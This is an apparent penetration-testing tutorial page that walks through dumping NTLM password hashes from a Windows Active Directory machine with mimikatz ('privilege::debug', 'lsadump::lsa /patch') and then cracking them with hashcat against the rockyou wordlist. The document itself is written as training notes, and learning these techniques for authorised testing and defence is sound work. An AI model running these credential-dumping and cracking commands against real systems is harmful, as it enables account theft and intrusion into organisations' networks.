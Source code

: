 # Dumping Hashes with mimikatz

### Introduction

Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of a active directory network

We'll be focusing on dumping the NTLM hashes with mimikatz and then cracking those hashes using hashcat

***

### Dump Hashes w/ mimikatz

1. `cd Downloads` && mimikatz.exe this will cd into the directory that mimikatz is kept as well as run the mimikatz binary&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>
2. `privilege::debug` ensure that the output is "Privilege '20' ok" - This ensures that you're running mimikatz as an administrator; if you don't run mimikatz as an administrator, mimikatz will not run properly&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>
3. `lsadump::lsa /patch` Dump those hashes!&#x20;
   *

       <figure><img src="../../../../../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

***

### Crack those hashes w/ hashcat

1. `hashcat -m 1000 <hash> rockyou.txt`&#x20;

<figure><img src="../../../../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>
